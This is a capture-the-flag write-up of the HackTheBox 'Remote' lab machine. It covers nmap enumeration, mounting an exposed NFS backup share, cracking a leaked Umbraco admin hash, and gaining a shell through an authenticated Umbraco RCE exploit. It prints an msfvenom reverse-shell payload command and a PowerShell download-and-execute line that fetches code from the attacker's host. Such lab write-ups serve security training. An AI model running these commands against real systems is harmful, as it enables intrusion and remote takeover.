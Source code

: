 ```yaml
---
title: HackTheBox Remote Writeup
published: true
---
```


> ![logo](https://i.ibb.co/P9ByhXj/logo.png)

# []() Methodology

* Nmap scan
* find some mounted files.
* find username and password of Umbraco cms
* Execute command with Umbraco exploit and got reverse shell.
* got user.
* Privilege Escalation.

# []() Nmap Scan

* as always, i'll do nmap scan to find out which services running in this machine.

> i found some useful ports like 21 for ftp and **Anonymous FTP login allowed**, 80 for **Microsoft HTTPAPI**.

> **nmap -sC -sV -p- -oN scan.txt 10.10.10.180**

```ruby

Nmap scan report for 10.10.10.180
Host is up (0.44s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m36s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-10T20:52:24
|_  start_date: N/A


```

# []() FTP Anonymous Login

> **first thing we should login to ftp and catch any important files but i didn't find anything.**

| Command        | Username          | Password |
|:-------------|:------------------|:------|
| ftp 10.10.10.80           | anonymous | anonymous  |

![ftp](https://i.ibb.co/1sr2KmP/ftp.png)

# []() Checking the Web-Page

* the web page was very simple and contain some useful data like usernames.

![](https://i.ibb.co/tZtRStB/webpage1.png)

* and here's some usernames.

![](https://i.ibb.co/VYL2nQH/wbpage2.png)

* as always i tried to bruteforce the username and password for the smb but i failed so let's enumerate some.

* when i ran gobuster i found an dir for umbraco cms.

> **gobuster dir -u http://10.10.10.180/ -w /usr/share/dirb/wordlists/common.txt -s 200**

![gobuster](https://i.ibb.co/db7f3xZ/gobuster.png)

* and here is the cms login page.

![cms](https://i.ibb.co/ZmTHzBg/cms.png)

* this cms vulnerable to auth RCE so we need some credentials.

> after enumerated some mounted files from the machine i found the user and the password.

| Command1        | Command2          | Command3 |
|:-------------|:------------------|:------|
| /usr/sbin/showmount -e 10.10.10.180           | mkdir mounted_files | sudo mount 10.10.10.180://site_backups ./mounted_files  |

![](https://i.ibb.co/wyKCwdn/mount.png)

> **in the Web.config file, i noticed the connection date will be stored in the Umbraco.sdf.**

![](https://i.ibb.co/w4W9x6c/subl.png)

* let's see what is in Umbraco.sdf. this file in App_Data dir.

![](https://i.ibb.co/m8v96XX/admin.png)


| Username        | Email          | Password |
|:-------------|:------------------|:------|
| admin          | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa  |

* the password encrypted with SHA1. let's decrypt it.

![](https://i.ibb.co/ZW3fNL2/password.png)

* Password: **baconandcheese**

* let's login to the cms panel.

![](https://i.ibb.co/wpVjHSv/cmspage.png)

* now we can use this [Umbraco-RCE Exploit](https://github.com/noraj/Umbraco-RCE.git) to get reverse shell.

* let's test the exploit.

* first we need a reverse shell to upload it to the machine to give us reverse shell.

> **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST LPORT=PORT -f psh -o reverse-shell.ps1**

* now let's upload our reverse shell to the machine with the exploit.

> **./umbraco_cve.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:80/reverse.ps1')"**

![reverse-shell](https://i.ibb.co/BTq01sQ/reverse-shell.png)

* and we got user flag.

* after some enumeration i found that TeamViewer was installed in this box. so run this command in the meterpreter session.

* here's the administrator password.

![](https://i.ibb.co/JKYhsvG/root.png)

* there is another way to get root with UsoSvc service and you can read about it from here. [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

* let's login as administrator now with evil-winrm.

![](https://i.ibb.co/yqz7qKC/final.png)

* Thanks for reading.
* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>









